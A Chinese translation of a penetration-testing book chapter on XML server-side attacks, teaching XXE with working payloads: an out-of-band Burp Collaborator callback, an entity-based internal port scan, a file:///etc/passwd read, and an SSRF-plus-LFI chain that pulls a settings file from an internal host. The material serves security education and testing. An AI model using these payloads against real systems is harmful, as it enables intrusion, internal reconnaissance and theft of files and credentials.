# 第十章：实用的服务器端攻击

在上一章中，我们通过一系列实际攻击，利用应用程序的漏洞实现目标。本章的重点将是服务器端攻击，主要通过利用 XML 漏洞。尽管 JSON 在 web 应用中的数据交换中已经占据了大量市场份额，但 XML 仍然相当普遍。它不像 JSON 那样简洁，可能稍微难以阅读，但它已经相当成熟。任何开发者选择的语言都有大量的 XML 解析库可供使用。Java 在企业界仍然很受欢迎，Android 现象也促使了更多 Java 爱好者的涌现。微软仍然非常喜爱 XML，你可以在它的操作系统、应用程序清单和 IIS 网站配置文件中随处可见。

本章的目标是让你熟悉 XML 攻击，最终你将熟悉以下内容：

+   DoS 条件

+   **服务器端请求伪造**（**SSRF**）攻击

+   信息泄露

+   盲目利用和带外数据外泄

+   远程代码执行

在你的旅途中，你无疑已经遇到过 XML，乍一看，它与 HTML 类似。它有一个描述文档的头部，通常看起来是这样的：

```
<?xml version="1.0" encoding="UTF-8"?>
```

接下来是任意标签，用于描述文档中包含的数据。虽然 HTML 指示客户端（如浏览器）如何渲染数据，XML 则用于描述数据本身，因此被称为自描述。数据通过称为元素的构建块进行定义或描述。一个 XML 文档的示例如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Dade Murphy</name>
  <id>1</id>
  <email>admin@localhost</email>
</user>
```

`<user>` 元素表示记录类型，其边界为 `</user>`，类似于 HTML。这也是根元素。在该记录中，我们有 `<name>`、`<id>` 和 `<email>` 条目，并包含相应的值。需要注意的是，任何解析此数据的应用程序都必须知道如何处理其中的内容。现代网页浏览器知道如何处理 HTML 中的 `<div>` 和 `<a>`，因为它们都遵循标准。交换 XML 数据的应用程序必须就数据的内容以及如何处理或呈现这些数据达成一致。从语法角度来看，XML 结构是有效的（即所有标签都正确闭合，存在根元素，文档头部也已包含），但可能缺少预期的元素，且应用程序在解析数据时可能会崩溃或浪费资源。

# 内部和外部引用

**文档类型定义**（**DTD**）用于规范构建特定文档的正确方式。DTD 在 XML 文档中通过使用文档类型声明（`DOCTYPE`）元素进行引用。DTD 可以完整地写在 XML 文档中，也可以通过外部引用供解析器下载和处理。

内部 DTD 通常位于 XML 文档的顶部，在 `DOCTYPE` 标签中：

```
<?xml version="1.0" encoding="UTF-8"?>
**<!DOCTYPE user [**
  **<!ELEMENT user ANY>**
  **<!ENTITY company "Ellingson Mineral Company">**
**]>**
<user>
  <name>Dade Murphy</name>
  <id>1</id>
  <email type="local">admin@localhost</email>
  <company>**&company;**</company>
</user>
```

上面的内部 DTD 定义了`user`根元素和一个内部实体`company`，该实体定义为存储字符串值`"Ellingson Mineral Company"`。在文档本身中，可以使用与 HTML 类似的符号（&和;）来引用公司实体。当解析器遇到`&company;`字符串时，它会插入在前面的 DTD 中定义的值。

如我之前所说，也可以将文档的 XML 解析器指向外部 DTD 文件。解析器将在处理文档的其余部分之前，去获取该文件。外部 DTD 在`DOCTYPE`中通过在前面加上`SYSTEM`关键字进行引用：

```
<?xml version="1.0" encoding="UTF-8"?>
**<!DOCTYPE user SYSTEM "user.dtd">**
<user>
  <name>Dade Murphy</name>
  <id>1</id>
  <email type="local">admin@localhost</email>
  <company>**&company;**</company>
</user>
```

`user.dtd`文件将包含我们的实体和元素定义：

```
<!DOCTYPE user [
  <!ELEMENT user ANY>
  <!ENTITY **company** "Ellingson Mineral Company">
]>
```

一旦 DTD 成功下载并解析，`company`实体将会像以前一样被扩展。

就像我们的外部 DTD 定义一样，我们也可以引用外部实体。其语法类似于引用外部 DTD：它需要使用`SYSTEM`关键字和 URI：

```
<?xml version="1.0" encoding="UTF-8"?>
**<!DOCTYPE user [<!ELEMENT user ANY><!ENTITY company SYSTEM "http://config.ecorp.local/company.xml">]>**
<user>
  <name>Dade Murphy</name>
  <id>1</id>
  <email type="local">admin@localhost</email>
  <company>**&company;**</company>
</user>
```

我们可以将此 XML 文档传递给解析器，作为例如 API 身份验证请求的一部分。当解析器需要解析`&company;`实体时，它会建立一个 HTTP 连接到`config.ecorp.local`，然后将内容回显在`<company>`元素中。

攻击者的思维方式会注意到用户能够影响服务器行为的能力，并可能寻找滥用这种能力的方法。

# XXE 攻击

XXE 攻击利用了 XML 库允许这些外部引用（如 DTD 或实体）的事实。开发人员可能没有意识到这一潜在的攻击向量，而 XML 输入有时会被忽略清理。例如，作为与 API 通信的攻击者，我们可以拦截 SOAP XML 请求，并在负载中注入我们自己的 XML 元素。服务器端组件必须解析此负载以了解如何处理数据。如果解析器未正确配置，并且允许外部实体，我们可以利用服务器读取系统上的文件，执行 SSRF 攻击，发起 DoS 攻击，甚至在某些情况下执行代码。

## 十亿次笑声

**十亿次笑声攻击**，也称为**XML 炸弹**，是一种 DoS 攻击，旨在通过让 XML 解析器分配比可用内存更多的内存，从而使其超载，且仅使用相对较小的输入缓冲区。在较旧的系统或内存有限的虚拟机上，解析器炸弹可能会迅速导致应用崩溃，甚至使宿主崩溃。

XML 炸弹利用了文件格式（如 XML）允许用户指定对其他任意定义数据的引用或指针这一事实。在前面的示例中，我们使用实体扩展将`&company;`替换为在文档头部或外部定义的数据。

XML 炸弹的样子如下：



图 10.1：XML 炸弹攻击

解析器将查看这些数据并开始扩展实体，从 `<lolz>` 根元素开始。对 `&lol9;` 实体的引用将指向由 `&lol8;` 定义的 10 个其他引用。这一过程会一直重复，直到第一个实体 `&lol;` 扩展为 `"lol"` 字符串。最终结果是内存中分配了 10⁹ (10 亿) 个 `"lol"` 字符串的实例，或者说一亿次笑声。这本身就可能占用多达 3 GB 的内存，具体取决于解析器及其如何在内存中处理字符串。在现代服务器上，除非此攻击通过多个连接分布到应用程序上，否则其影响可能微乎其微。

### 注意

和往常一样，在客户端系统上测试这些类型的漏洞时要小心。DoS 攻击通常在工作中不被允许。在极少数允许 DoS 攻击的情况下，XML 炸弹可能是一个有效的方式，用来在蓝队集中资源时拖慢其速度，前提是该系统不是业务关键系统。

XML 并不是唯一允许这种类型的 DoS 攻击的文件格式。事实上，任何具有创建指向其他数据的指针的语言都可以以类似的方式被滥用。YAML，一种通常用于配置文件中的人类可读的文件格式，也允许指向数据的指针，因此也可以发生 YAML 炸弹攻击：



图 10.2：YAML 一亿次笑声攻击

这些攻击的效果差异很大，取决于所使用的库及其内存管理方式，以及底层操作系统和可用的内存。虽然并非所有的炸弹都会导致系统崩溃，但它们确实展示了输入清理的重要性。破坏机密性和违反完整性可能更具吸引力，但当可用性可以通过几行代码轻易地被影响时，防御者应该保持警惕。

## 请求伪造

**请求伪造** 攻击发生在应用程序被迫向攻击者选择的其他主机发送请求时。外部实体扩展攻击是一种 SSRF 攻击形式，因为它强迫应用程序连接到任意的 URL 来下载 DTD 或其他 XML 数据。

在最坏的情况下（或者从你的角度来看，最好情况），像 XXE 这样的请求伪造可能导致信息泄露、盲数据外泄，甚至远程代码执行，正如我们稍后将看到的。然而，SSRF 也可以用于将攻击链延伸至内部的非公开服务器，甚至进行端口扫描。

为了展示这种特定的攻击，我们将使用一个用 PHP 编写的 XML 解析应用程序。对于大多数非开发者来说，代码应该相当简单易懂：



图 10.3：简单的 PHP XML 解析器

代码的简要概述：

+   第 7 到第 11 行定义了一个 HTML 表单，允许用户通过 `POST` 请求提交 XML 数据。

+   第 2 到第 5 行将使用 `SimpleXML` PHP 模块处理传入的 XML 文本。解析后的数据将作为 XML 对象存储：`$xml_object`。

+   第 13 到 23 行将整齐地显示解析后的 XML 数据。

我们可以从命令行启动一个临时 Web 服务器，使用内置的 PHP 测试服务器对我们的易受攻击的 XML 解析应用程序进行一些 SSRF 攻击测试：

```
root@kali:/var/www/html# php -S 0.0.0.0:80
```

### 注意

出于演示目的，我们的应用程序将通过`http://xml.parser.local`访问。



图 10.4：运行中的易受攻击的 PHP XML 解析器

为了测试解析器的外部实体扩展功能，我们可以使用表单发送一个简短的 XML 负载，描述一本书。我们将使用由 Burp Collaborator 托管的外部实体。虽然这不是一个有效的负载，因为 Collaborator 会返回一个预设的 HTML 响应，但它可以帮助我们确认应用程序是否存在漏洞。

让我们创建一个新的 Collaborator 客户端实例，并将生成的主机传递给我们的负载中的应用程序：

从**Burp**菜单中选择**Burp Collaborator 客户端**选项：



图 10.5：启动 Burp Collaborator 客户端模块

我们将生成一个 Collaborator 主机，并在客户端窗口中选择**复制到剪贴板**。在生成主机名后，重要的是不要关闭 Collaborator 客户端，直到攻击结束。如果我们过早关闭它，Collaborator 将无法将发往该主机名的带外请求与我们的 Burp 会话关联：



图 10.6：将生成的 Collaborator 主机名复制到剪贴板

生成的值将类似于此：

```
gl50wfrstsbfymbxzdd454v2ut0jo8.burpcollaborator.net
```

现在我们将构建一个 XML 文档，从我们刚刚生成的 Burp Collaborator 主机中获取`publisher`值。我们希望当脆弱的应用程序尝试获取外部内容时，Burp Collaborator 能够拦截该请求并确认漏洞：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE book [
  <!ELEMENT book ANY >
  <!ENTITY publisher SYSTEM "**http://gl50wfrstsbfymbxzdd454v2ut0jo8.burpcollaborator.net/publisher.xml**">
]>
<book>
  <title>The Flat Mars Society</title>
  <publisher>&publisher;</publisher>
  <author>Elon Musk</author>
</book>
```

### 注意

确认这一点不需要 Collaborator。我们可以在云中的 C2 服务器上运行一个简单的 HTTP 服务器。Collaborator 在需要 HTTPS 连接时非常有用，或者在确认必须通过 DNS 或其他协议进行时。

结果是一个整齐的解析对象，显示在屏幕底部的红色区域：



图 10.7：提交 XML 负载并观察响应

我们可以看到，`&publisher;`实体被解析器成功解析，这意味着应用程序向我们的 Collaborator 实例发出了外部 HTTP 连接。有趣的是，解析器成功地将 HTML 响应解释为 XML，因为 XML 和 HTML 的结构相似：

```
<html>
  <body>**[content]**</body>
</html>
```

从客户端轮询 Collaborator 服务器确认了该漏洞的存在，现在我们知道我们可以以某种方式影响服务器：



图 10.8：Collaborator 客户端确认 SSRF 漏洞

### 端口扫描仪

了解到我们可以将应用程序指向任何 URL 并进行连接，我们可以利用这一点对内部网络（或其他任何主机）进行粗略的端口扫描。我们不仅可以扫描 HTTP 端口。URL 允许指定任意端口，虽然它可能尝试协商 HTTP 连接，但我们仍然可以通过检查解析器连接尝试的错误信息来推测存在 SMTP 服务。

由于我们正在伪造请求，使其看起来来自脆弱的 XML 解析器应用程序，因此所有的端口扫描尝试将表现为来自内部受信任系统。这从隐匿性角度来看是有利的，并且在某些情况下，可以避免触发警报。

我们将用于 XXE 端口扫描器的 XML 代码将针对 `10.0.5.19` 内部主机，寻找有趣的服务：`8080`、`80`、`443`、`22` 和 `21`：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE budgetnmap [
  <!ELEMENT budgetnmap ANY>
  **<!ENTITY port0 SYSTEM "http://10.0.5.19:8080/">**
  **<!ENTITY port1 SYSTEM "http://10.0.5.19:80/">**
  **<!ENTITY port2 SYSTEM "http://10.0.5.19:443/">**
  **<!ENTITY port3 SYSTEM "http://10.0.5.19:22/">**
  **<!ENTITY port4 SYSTEM "http://10.0.5.19:21/">**
]>
<budgetnmap>
&port0;
&port1;
&port2;
&port3;
&port4;
</budgetnmap>
```

一旦上传到应用程序进行解析，负载将迫使 XML 解析器系统地连接到每个指定的端口，尝试为 `&portN;` 实体获取数据：



图 10.9：XXE 端口扫描器显示开放端口的错误信息

服务器的响应有些凌乱，但它确实提供了足够的信息，说明内部主机 `10.0.5.19` 上的端口 `80` 实际是开放的。解析器能够连接到该端口，虽然它未能解析其内容，但错误信息却提供了有价值的线索。相反，实体 `&port0;` 返回了一个 `Connection timed out` 错误消息，这表明该端口可能被防火墙屏蔽。

Burp Suite 具有一个非常方便的功能，可以让我们将捕获的任何请求复制为 `curl` 命令。如果我们希望对另一个内部主机重复进行此攻击，可能还需要解析响应供其他工具使用，我们可以通过一次点击快速复制负载：



图 10.10：将 Burp 请求保存为 curl 命令

生成的 `curl` 命令可以通过管道传递给 `grep`，我们可以过滤出仅包含 `"http:"` 的行，以使输出更易于阅读：

```
curl -i -s -k -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'xml=%3C%3Fxml+version%3D%221.0%22+[...]%3C%2Fbudgetnmap%3E%0D%0A&submit_xml=Parse+XML' $'http://xml.parser.local/xml.php' | **grep "http:"**
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:8080/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(): **http://10.0.5.19:80/**:1: parser error : **StartTag: invalid element name** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:443/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:22/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:21/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
```

从这里开始，我们可以更进一步，自动化负载生成或进一步清理输出。

## 信息泄露

XXE 也可以用来读取应用程序可以访问的任何磁盘上的文件。当然，大多数情况下，更有价值的文件是应用程序的源代码，这是攻击者的常见目标。请记住，外部实体是通过 URL 访问的，在 PHP 中，文件系统是通过 `file://` URL 前缀访问的。

要读取 Linux 系统上的 `/etc/passwd` 文件，像这样的简单负载就能奏效：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
    <!ELEMENT xxe ANY >
    <!ENTITY exfil SYSTEM "**file:///etc/passwd**">
]>
<xxe>&exfil;</xxe>
```

结果是可预测的，并且是我们向客户报告的一个很好的概念验证。XML 解析器将通过 `file://` 协议访问，获取 `/etc/passwd` 的内容，并在屏幕上显示：



图 10.11：利用 XXE 获取 /etc/passwd

正如我之前提到的，对于这种类型的攻击，除了文件外，还可以考虑更多高价值的目标进行数据外泄：应用程序的源代码、私钥（SSH 私钥和证书私钥）、历史文件、操作系统配置文件或脚本等。如果应用程序可以读取磁盘上的文件，我们也能读取。

然而，使用此漏洞不仅仅可以访问本地文件。SSRF 攻击，例如 XXE，也可以用来针对可能无法从外部网络访问的内部应用程序，例如其他虚拟局域网（VLAN）或互联网。

### 注释

我们将用于演示的内部应用程序运行在`10.0.5.19`，它是 Mike Pirnat 的出色**badguys**项目。该 Web 应用程序的代码可以从[`github.com/mpirnat/lets-be-bad-guys`](https://github.com/mpirnat/lets-be-bad-guys)下载。

假设在进一步调查我们之前成功扫描过的服务器后，我们意识到`10.0.5.19`上运行的应用程序容易受到 LFI 攻击。我们无法直接从我们的网络段访问`10.0.5.19`，只有目标`xml.parser.local`应用程序暴露给我们。通常情况下，我们无法攻击`10.0.5.19`，但由于 XXE SSRF 问题，我们可以迫使 XML 解析器代我们执行攻击。

我们将构建一个有效载荷，传递给`xml.parser.local`，这将迫使它连接到我们的目标内部服务器，并通过 LFI 攻击从易受攻击的应用程序中检索设置文件。

运行在内部`10.0.5.19`主机上的 badguys 应用程序在`/user-pic` URL 参数`p`中存在 LFI 漏洞：

```
http://10.0.5.19/user-pic?p=**[LFI]**

```

这个特别的易受攻击应用程序是开源的，通过简单的 GitHub 搜索，我们可以了解文件夹结构的所有信息。对于其他框架和 CMS 也是如此。一个容易受到 LFI 攻击的 WordPress 安装也可以轻松利用，获取`wp-config.php`的内容。

我们知道设置文件的相对路径，因为我们已经查找过，并且可以将其用作 LFI 利用的注入有效载荷。badguys 应用程序将设置存储在一个名为`settings.py`的文件中，通常存储在当前工作目录的上两级目录中。

为了获取这个文件的内容，我们的 XML 有效载荷可能会像这样：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY exfil SYSTEM "**http://10.0.5.19/user-pic?p=../../settings.py**">
]>
<xxe>**&exfil;**</xxe>
```

我们将不使用 Collaborator 主机名，而是要求 XML 服务器连接到内部主机并将响应返回给我们。如果一切顺利，XML 解析器将利用运行在`10.0.5.19`上的内部 badguys 应用程序，给我们返回`settings.py`文件的内容：

